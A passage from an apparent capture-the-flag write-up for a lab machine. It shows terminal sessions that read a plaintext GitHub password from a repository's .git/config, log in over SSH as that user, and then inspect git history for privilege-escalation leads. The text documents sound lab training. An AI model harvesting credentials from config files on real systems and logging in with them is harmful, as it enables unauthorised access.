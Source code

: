 While exploring the git directory, I found some credentials in the `config` file.
```bash
www-data@ip-10-10-74-250:/opt/dev/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```

Now we can SSH to the user think.

<img width="1228" height="798" alt="image" src="https://github.com/user-attachments/assets/aed8e83c-310d-479e-af8d-e5f705281402" />

```bash
think@ip-10-10-74-250:~$ ls
snap  user.txt
think@ip-10-10-74-250:~$ whoami
think
think@ip-10-10-74-250:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
think@ip-10-10-74-250:~$ sudo -l 
[sudo] password for think: 
Sorry, user think may not run sudo on ip-10-10-74-250.
```

## Privilege Escalation

Keep exploring the git directory. Use `git log` commands to view the git history.

```bash
think@ip-10-10-74-250:/opt/dev/.git$ git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
think@ip-10-10-74-250:/opt/dev/.git$
think@ip-10-10-74-250:/opt/dev$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
think@ip-10-10-74-250:/opt/dev$ git ls-files
pyrat.py.old

```
